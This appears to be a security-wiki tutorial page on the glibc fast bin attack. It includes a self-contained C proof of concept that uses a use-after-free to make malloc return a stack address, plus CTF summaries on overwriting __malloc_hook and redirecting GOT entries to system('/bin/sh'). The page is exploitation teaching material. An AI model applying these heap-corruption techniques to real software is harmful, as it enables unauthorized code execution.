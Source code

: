 # Fast Bin Attack

## Basic Information

For more information about what is a fast bin check this page:

[[bins-and-memory-allocations.md]]

Because the fast bin is a singly linked list, there are much less protections than in other bins and just **modifying an address in a freed fast bin** chunk is enough to be able to **allocate later a chunk in any memory address**.

As summary:

```c
ptr0 = malloc(0x20);
ptr1 = malloc(0x20);

// Put them in fast bin (suppose tcache is full)
free(ptr0)
free(ptr1)

// Use-after-free
// Modify the address where the free chunk of ptr1 is pointing
*ptr1 = (unsigned long)((char *)&<address>);

ptr2 = malloc(0x20); // This will get ptr1
ptr3 = malloc(0x20); // This will get a chunk in the <address> which could be abuse to overwrite arbitrary content inside of it
```

You can find a full example in a very well explained code from [https://guyinatuxedo.github.io/28-fastbin_attack/explanation_fastbinAttack/index.html](https://guyinatuxedo.github.io/28-fastbin_attack/explanation_fastbinAttack/index.html):

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(void)
{
    puts("Today we will be discussing a fastbin attack.");
    puts("There are 10 fastbins, which act as linked lists (they're separated by size).");
    puts("When a chunk is freed within a certain size range, it is added to one of the fastbin linked lists.");
    puts("Then when a chunk is allocated of a similar size, it grabs chunks from the corresponding fastbin (if there are chunks in it).");
    puts("(think sizes 0x10-0x60 for fastbins, but that can change depending on some settings)");
    puts("\nThis attack will essentially attack the fastbin by using a bug to edit the linked list to point to a fake chunk we want to allocate.");
    puts("Pointers in this linked list are allocated when we allocate a chunk of the size that corresponds to the fastbin.");
    puts("So we will just allocate chunks from the fastbin after we edit a pointer to point to our fake chunk, to get malloc to return a pointer to our fake chunk.\n");
    puts("So the tl;dr objective of a fastbin attack is to allocate a chunk to a memory region of our choosing.\n");

    puts("Let's start, we will allocate three chunks of size 0x30\n");
    unsigned long *ptr0, *ptr1, *ptr2;

    ptr0 = malloc(0x30);
    ptr1 = malloc(0x30);
    ptr2 = malloc(0x30);

    printf("Chunk 0: %p\n", ptr0);
    printf("Chunk 1: %p\n", ptr1);
    printf("Chunk 2: %p\n\n", ptr2);


    printf("Next we will make an integer variable on the stack. Our goal will be to allocate a chunk to this variable (because why not).\n");

    int stackVar = 0x55;

    printf("Integer: %x\t @: %p\n\n", stackVar, &stackVar);

    printf("Proceeding that I'm going to write just some data to the three heap chunks\n");

    char *data0 = "00000000";
    char *data1 = "11111111";
    char *data2 = "22222222";

    memcpy(ptr0, data0, 0x8);
    memcpy(ptr1, data1, 0x8);
    memcpy(ptr2, data2, 0x8);

    printf("We can see the data that is held in these chunks. This data will get overwritten when they get added to the fastbin.\n");

    printf("Chunk 0: %s\n", (char *)ptr0);
    printf("Chunk 1: %s\n", (char *)ptr1);
    printf("Chunk 2: %s\n\n", (char *)ptr2);

    printf("Next we are going to free all three pointers. This will add all of them to the fastbin linked list. We can see that they hold pointers to chunks that will be allocated.\n");

    free(ptr0);
    free(ptr1);
    free(ptr2);

    printf("Chunk0 @ 0x%p\t contains: %lx\n", ptr0, *ptr0);
    printf("Chunk1 @ 0x%p\t contains: %lx\n", ptr1, *ptr1);
    printf("Chunk2 @ 0x%p\t contains: %lx\n\n", ptr2, *ptr2);

    printf("So we can see that the top two entries in the fastbin (the last two chunks we freed) contains pointers to the next chunk in the fastbin. The last chunk in there contains `0x0` as the next pointer to indicate the end of the linked list.\n\n");


    printf("Now we will edit a freed chunk (specifically the second chunk \"Chunk 1\"). We will be doing it with a use after free, since after we freed it we didn't get rid of the pointer.\n");
    printf("We will edit it so the next pointer points to the address of the stack integer variable we talked about earlier. This way when we allocate this chunk, it will put our fake chunk (which points to the stack integer) on top of the free list.\n\n");

    *ptr1 = (unsigned long)((char *)&stackVar);

    printf("We can see it's new value of Chunk1 @ %p\t hold: 0x%lx\n\n", ptr1, *ptr1);


    printf("Now we will allocate three new chunks. The first one will pretty much be a normal chunk. The second one is the chunk which the next pointer we overwrote with the pointer to the stack variable.\n");
    printf("When we allocate that chunk, our fake chunk will be at the top of the fastbin. Then we can just allocate one more chunk from that fastbin to get malloc to return a pointer to the stack variable.\n\n");

    unsigned long *ptr3, *ptr4, *ptr5;

    ptr3 = malloc(0x30);
    ptr4 = malloc(0x30);
    ptr5 = malloc(0x30);

    printf("Chunk 3: %p\n", ptr3);
    printf("Chunk 4: %p\n", ptr4);
    printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);

    printf("\n\nJust like that, we executed a fastbin attack to allocate an address to a stack variable using malloc!\n");
}
```

> [!CAUTION]
> If it's possible to overwrite the value of the global variable **`global_max_fast`** with a big number, this allows to generate fast bin chunks of bigger sizes, potentially allowing to perform fast bin attacks in scenarios where it wasn't possible previously. This situation useful in the context of [large bin attack](large-bin-attack.md) and [unsorted bin attack](unsorted-bin-attack.md)

## Examples

- **CTF** [**https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html**](https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html)**:**
  - It's possible to allocate chunks, free them, read their contents and fill them (with an overflow vulnerability).
    - **Consolidate chunk for infoleak**: The technique is basically to abuse the overflow to create a fake `prev_size` so one previous chunks is put inside a bigger one, so when allocating the bigger one containing another chunk, it's possible to print it's data an leak an address to libc (`main_arena+88`).
    - **Overwrite malloc hook**: For this, and abusing the previous overlapping situation, it was possible to have 2 chunks that were pointing to the same memory. Therefore, freeing them both (freeing another chunk in between to avoid protections) it was possible to have the same chunk in the fast bin 2 times. Then, it was possible to allocate it again, overwrite the address to the next chunk to point a bit before `__malloc_hook` (so it points to an integer that malloc thinks is a free size - another bypass), allocate it again and then allocate another chunk that will receive an address to malloc hooks.\
      Finally a **one gadget** was written in there.
- **CTF** [**https://guyinatuxedo.github.io/28-fastbin_attack/csaw17_auir/index.html**](https://guyinatuxedo.github.io/28-fastbin_attack/csaw17_auir/index.html)**:**
  - There is a heap overflow and use after free and double free because when a chunk is freed it's possible to reuse and re-free the pointers
    - **Libc info leak**: Just free some chunks and they will get a pointer to a part of the main arena location. As you can reuse freed pointers, just read this address.
    - **Fast bin attack**: All the pointers to the allocations are stored inside an array, so we can free a couple of fast bin chunks and in the last one overwrite the address to point a bit before this array of pointers. Then, allocate a couple of chunks with the same size and we will get first the legit one and then the fake one containing the array of pointers. We can now overwrite this allocation pointers to make the GOT address of `free` point to `system` and then write `"/bin/sh"` in chunk 1 to then call `free(chunk1)` which instead will execute `system("/bin/sh")`.
- **CTF** [**https://guyinatuxedo.github.io/33-custom_misc_heap/csaw19_traveller/index.html**](https://guyinatuxedo.github.io/33-custom_misc_heap/csaw19_traveller/index.html)
  - Another example of abusing a one byte overflow to consolidate chunks in the unsorted bin and get a libc infoleak and then perform a fast bin attack to overwrite malloc hook with a one gadget address
- **CTF** [**https://guyinatuxedo.github.io/33-custom_misc_heap/csaw18_alienVSsamurai/index.html**](https://guyinatuxedo.github.io/33-custom_misc_heap/csaw18_alienVSsamurai/index.html)
  - After an infoleak abusing the unsorted bin with a UAF to leak a libc address and a PIE address, the exploit of this CTF used a fast bin attack to allocate a chunk in a place where the pointers to controlled chunks were located so it was possible to overwrite certain pointers to write a one gadget in the GOT
  - You can find a Fast Bin attack abused through an unsorted bin attack:
    - Note that it's common before performing fast bin attacks to abuse the free-lists to leak libc/heap addresses (when needed).
- [**Robot Factory. BlackHat MEA CTF 2022**](https://7rocky.github.io/en/ctf/other/blackhat-ctf/robot-factory/)
  - We can only allocate chunks of size greater than `0x100`.
  - Overwrite `global_max_fast` using an Unsorted Bin attack (works 1/16 times due to ASLR, because we need to modify 12 bits, but we must modify 16 bits).
  - Fast Bin attack to modify the a global array of chunks. This gives an arbitrary read/write primitive, which allows to modify the GOT and set some function to point to `system`.

[[unsorted-bin-attack.md]]


